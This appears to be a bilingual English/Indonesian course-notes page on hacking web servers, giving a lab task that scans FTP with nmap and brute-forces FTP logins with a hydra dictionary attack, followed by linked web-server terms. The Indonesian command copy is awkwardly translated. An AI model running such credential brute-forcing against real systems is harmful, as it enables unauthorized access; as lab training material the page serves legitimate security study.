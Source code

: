 # Bagian 01: Web Server Concepts/Konsep Server Web

**Modul 13: Hacking Web Servers/Meretas Server Web**

**Lab2-Task1: Crack FTP Credentials using a Dictionary Attack/Memecahkan Kredensial FTP menggunakan Serangan Kamus**

- nmap -p 21 [IP]

- **hydra -L usernames.txt -P passwords.txt ftp://10.10.10.10**

----------------------------------------------------------
atau versi bahasa indonesai agar mudah di pahami:

- nmap -p 21 [IP]

- **hydra -L nama pengguna.txt -P kata sandi.txt ftp://10.10.10.10**

--------------------------------------------------- --------

## Konsep Server Web
server web

Hypertext transer protocol (HTTP)/Protokol transer hiperteks (HTTP)

[Definisi](../definitions/definitions_H.md#hypertext-transfer-protocol)

Virtual hosting/Tuan rumah maya

[Definisi](../definitions/definitions_V.md#virtual-hosting)

LAMP (Linux Apache MySQL PHP) stack/Tumpukan LAMP (Linux Apache MySQL PHP).

[Definisi](../definitions/definitions_L.md#lamp-stack)

Internet information services (IIS)/Layanan Informasi Internet (IIS)

[Definisi](../definitions/definitions_I.md#internet-information-services)

Website defacement/Perusakan situs web

[Definisi](../definitions/definitions_W.md#website-defacement)
